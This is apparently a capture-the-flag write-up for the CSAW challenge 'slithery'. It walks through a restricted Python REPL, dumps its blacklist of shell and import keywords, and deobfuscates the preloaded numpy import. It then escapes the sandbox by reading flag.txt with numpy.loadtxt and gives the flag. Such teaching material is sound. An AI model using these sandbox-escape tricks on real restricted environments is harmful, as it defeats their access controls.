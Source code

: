 # pwn / slithery

## Question

> Setting up a new coding environment for my data science students.
> Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(.
> Can you help test this before I use it for my class?
> Two sandboxes should be better than one...
>
> `nc pwn.chal.csaw.io 5011`

### Provided Files

- `sandbox.py`

## Solution

The `sandbox.py` file spawns up a restricted Python REPL loop.

```py
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

From analyzing the code, we notice a `blacklist`.
We can dump out that blacklist since it is in scope inside `exec`:

```text
EduPy 3.8.2
>>> print(blacklist.BLACKLIST)
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```

We can't import anything new (like `os`), but we can work with what's already imported.
Breaking down the obfuscated code, it actually just imports `numpy`:

```py
# load the sandbox file
uOaoBPLLRN = open("sandbox.py", "r")
# this evaluates to 1
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
# fetches the first line of code from the sandbox file
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
# selects words[1] and words[-1], or "base64" and "b64decode", respectively
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
# from base64 import b64decode
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
# __import__('numpy')
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))
```

Knowing that `numpy` is in scope as `RMbPOQHCzt`, we can read around for the flag file.
`numpy.loadtxt` allows reading CSV-like files.
Setting the delimiter to something random allows for the entire file to be read as a string.

```text
EduPy 3.8.2
>>> print(RMbPOQHCzt.loadtxt("flag.txt",str,delimiter="AAAAA"))
flag{y4_sl1th3r3d_0ut}
```

### Flag

`flag{y4_sl1th3r3d_0ut}`
